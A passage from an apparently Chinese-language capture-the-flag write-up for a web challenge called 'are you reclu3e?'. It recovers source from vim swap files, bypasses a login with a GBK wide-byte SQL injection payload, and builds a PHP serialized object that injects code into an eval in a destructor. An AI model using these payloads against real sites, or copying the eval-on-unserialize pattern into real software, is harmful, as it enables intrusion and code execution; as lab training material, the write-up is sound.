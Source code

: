 注意： `echo serialize($pop)之后`，需要绕过 `__wakeup()` 才行。

 

 

 

 

### are you reclu3e?

考点：vim文件恢复、宽字节注入、反序列化

其实宽字节一开始就测出来了。。。
只不过我以为是要到表里面去注什么东西，结果是只需要登陆就可以。。。

根据放出的hint，提示vim，马上想到.swp文件，login和index的全部整下来恢复

在login.php中发现GBK字样，实锤宽字节注入：

```
username=reclu3e%df' union select 1,1#&password=1
```

登录之后我们就有了session，可以GET传入p让他反序列化

根据网鼎的web1，PHP7.1+的版本，反序列化的时候不会对属性类型进⾏特别的处理

所以我们可以直接把他改成public来打：

```
<?php
    include "flag.php";//$flag="minilctf{****}";
    session_start();
    if (empty($_SESSION['uid'])) {
        include "loginForm.html";
    }
    else{
        echo '<h1>Hello, reclu3e!</h1>';
        $p=unserialize(isset($_GET["p"])?$_GET["p"]:"");
    }
?>
<?php
class person{
    public $name='';
    public $age=0;
    public $weight=0;
    public $height=0;
    public $serialize='";phpinfo();$s="';
    public function __wakeup(){
        if(is_numeric($this->serialize)){
            $this->serialize++;
        }
    }
    public function __destruct(){
        @eval('$s="'.$this->serialize.'";');
    }
}

$p = new person();
echo serialize($p);
//O:6:"person":5:{s:4:"name";s:0:"";s:3:"age";i:0;s:6:"weight";
i:0;s:6:"height";i:0;s:9:"serialize";s:16:"";phpinfo();$s="";}
```
